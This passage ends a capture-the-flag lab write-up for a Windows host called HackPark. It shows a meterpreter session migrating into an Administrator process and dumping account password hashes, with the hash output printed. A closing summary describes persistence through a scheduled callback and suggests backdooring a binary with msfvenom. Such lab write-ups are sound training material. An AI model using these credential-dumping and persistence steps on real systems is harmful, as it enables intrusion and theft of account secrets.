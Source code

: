 ```powershell
 2536  2412  Message.exe           x86   1        HACKPARK\Administrator        C:\PROGRA~2\SYSTEM~1\Message.exe
 2588  904   taskhostex.exe        x64   1        HACKPARK\Administrator        C:\Windows\System32\taskhostex.exe
 2664  2656  explorer.exe          x64   1        HACKPARK\Administrator        C:\Windows\explorer.exe
 3064  2612  ServerManager.exe     x64   1        HACKPARK\Administrator        C:\Windows\System32\ServerManager.exe

meterpreter > migrate 1756
[*] Migration completed successfully.
```

Finally I dumped the credential hashes for a fun flag.

```powershell
meterpreter > hashdump 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3352c0731470aabf133e0c84276adcba:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
jeff:1001:aad3b435b51404eeaad3b435b51404ee:e7dd0bd78b1d5d7eea4ee746816e2377:::
```

## Summary

This host was interesting solely due to the potential that Scheduler service provided. By functioning like cron I was able to trigger a connection attempt at a 30 second interval giving me persistence for as long as that job was running the same binary. One thing I could have tried to do further was leverage templating in msfvenom to persist the binary with a backdoor added. All in all this was a fun way for me to continue experimenting with windows hosts.

